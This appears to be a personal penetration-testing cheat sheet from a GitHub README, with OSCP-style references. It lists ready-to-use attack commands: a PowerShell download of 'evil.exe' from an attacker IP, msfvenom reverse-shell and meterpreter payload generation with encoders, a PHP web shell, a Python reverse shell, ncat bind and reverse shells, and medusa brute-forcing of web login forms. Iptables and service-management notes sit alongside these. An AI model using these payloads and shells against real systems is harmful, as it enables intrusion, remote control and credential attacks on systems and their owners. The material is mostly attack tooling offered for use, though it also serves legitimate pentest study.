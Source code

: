 # Cybersecurity Cheatsheets
Collection of cybersecurity notes and cheat sheets.  If I pulled content from some else’s cheat sheet or site it will be listed reference section.

## User and group managment

Windows
```shell
net user bob bob123 /ADD
net localgroup "Remote Desktop Users" bob /ADD
net localgroup "Users" bob /ADD
```
## Starting services
linux
```shell
systemctl start ssh
systemctl start apache2
service apache2 start
```



## Enable/Disable service to start on boot
linux
```shell
systemctl enable apache2
systemctl disable apache2
```
## Download files

Powershell
```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://[your_ip_address]/evil.exe','evil.exe')
```

## msfvenom examples
```shell
msfvenom -p windows/shell_reverse_tcp  HOST=[your_ip_address] LPORT=[Port] -f asp > shell.asp
```

```shell
msfvenom -p windows/meterpreter/reverse_tcp [your_ip_address] LPORT=[Port] -f aspx > shell.aspx
```

```shell
msfvenom -p linux/x86/shell\_bind\_tcp LPORT=[port]-f c -b "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai
```

```shell
msfvenom -p windows/shell\_reverse\_tcp LHOST=<IP Address> LPORT=[port]-b "\\x00\\x0a\\x0d" -f c -a x86 --platform windows -e x86/shikata\_ga\_nai
```

## shells

PHP

```php
<<?php echo shell_exec($_GET['cmd']);?>
```

Python

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP Address>",443))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)p=subprocess.call(["/bin/sh","-i"])
```

### Netcat

-   Client nc –nv <Your IP Address> <port>
-   Server nc –nlvp <port>

### Ncat

-   Bind Shell: ncat –exec cmd.exe --allow <your_ip_address>-vnl <port>  --ssl
-   Client: ncat –v <your_ip_address> <port> --ssl
  
## Ncat 
-   TCP Port scan: nc –nvv –w 1 -z <your_ip_address> 3000-4000
-   UDP port scan: nc –nvv -u -z <your_ip_address> 3000-4000


## Iptables

-   Allow input on port: iptables -A INPUT -p tcp --dport [port] -j ACCEPT
-   iptables -A INPUT -p tcp --dport 22 -j ACCEPT
-   iptables -A INPUT -p udp--dport 22 -j ACCEPT
-   Traffic analysis
    -   iptables -I INPUT 1 -s [your_ip_address]-j ACCEPT
    -   iptables -I OUTPUT 1 -s [your_ip_address]-j ACCEPT
    -   iptables –Z
    -   iptables –vn -L

-   Clean up rules: iptables -F INPUT

medusa example
```shell
medusa \
  -h [target_ip] \
  -u offsec \
  -P nmap.lst \
  -M web-form \
  -m FORM:"login.php" \
  -m DENY-SIGNAL:"Wrong Username or Password" \
  -m FORM-DATA:"post?user=&pass=&Login=Login"


  medusa \
-h [target_ip]\
-u admin \
-P /data/dict/dict.txt \
-M web-form \
-m FORM:"admin/test.php" \
-m DENY-SIGNAL:"ACCESS DENIED" \
-m FORM-DATA:"post?u=&p=&Login=Login"
```


## References
* http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?redirect
* http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* http://pentestmonkey.net/tools/audit/unix-privesc-check
* http://pentestmonkey.net/tools/web-shells/php-reverse-shell
* http://resources.infosecinstitute.com/privilege-escalation-linux-live-examples/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-enumerating-services-part-2/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-sqli-xss-web-app-attacks-part-5/
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://blog.sucuri.net/2013/05/from-a-site-compromise-to-full-root-access-local-root-exploits-part-ii.html
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackmag.com/security/reach-the-root/
* https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
* https://highon.coffee/blog/tr0ll-1-walkthrough/
* https://jordanpotti.com/oscp/
* https://jordanpotti.com/oscp/
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://security.stackexchange.com/questions/68442/escalating-from-apache-shell-to-root
